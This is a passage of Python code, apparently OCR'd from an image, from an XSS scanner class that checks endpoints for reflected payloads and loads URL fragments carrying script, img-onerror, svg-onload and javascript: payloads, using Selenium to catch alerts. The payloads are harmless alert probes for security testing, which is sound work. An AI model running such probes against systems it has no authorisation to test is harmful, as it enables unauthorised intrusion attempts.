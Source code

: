 ```python
                        params={endpoint_info['endpoint']['param']: payload}
                    )
                else:
                    data = {endpoint_info['endpoint']['param']: payload}
                    response = self.session.request(
                        endpoint_info['endpoint']['method'],
                        f"{self.base_url}{endpoint_info['endpoint']['url']}",
                        json=data
                    )
                
                # Check if payload is reflected without encoding
                if payload in response.text and response.status_code == 200:
                    results.append({
                        'payload': payload,
                        'reflected': True,
                        'response_length': len(response.text)
                    })
                    print(f"    ✓ Reflected XSS found with payload: {payload}")
                    
            except Exception as e:
                print(f"    ✗ Error testing reflected XSS: {e}")
        
        return results
    
    def test_dom_xss(self):
        """Test for DOM-based XSS vulnerabilities"""
        print("\n[+] Testing DOM-based XSS...")
        
        # DOM XSS test URLs with fragments
        dom_test_urls = [
            f"{self.base_url}/#<script>alert('DOM XSS')</script>",
            f"{self.base_url}/search#<img src=x onerror=alert('DOM')>",
            f"{self.base_url}/profile#<svg onload=alert('DOM')>",
            f"{self.base_url}/tasks#javascript:alert('DOM')"
        ]
        
        results = []
        
        for test_url in dom_test_urls:
            try:
                self.driver.get(test_url)
                time.sleep(2)
                
                # Check for alert
                try:
                    WebDriverWait(self.driver, 3).until(EC.alert_is_present())
                    alert = self.driver.switch_to.alert
                    alert_text = alert.text
                    alert.accept()
                    
                    if 'DOM' in alert_text:
                        results.append({
                            'url': test_url,
                            'dom_xss': True,
                            'alert_text': alert_text
                        })
                        print(f"    ✓ DOM XSS found at: {test_url}")
                        
                except:
                    pass
                    
            except Exception as e:
                print(f"    ✗ Error testing DOM XSS: {e}")
```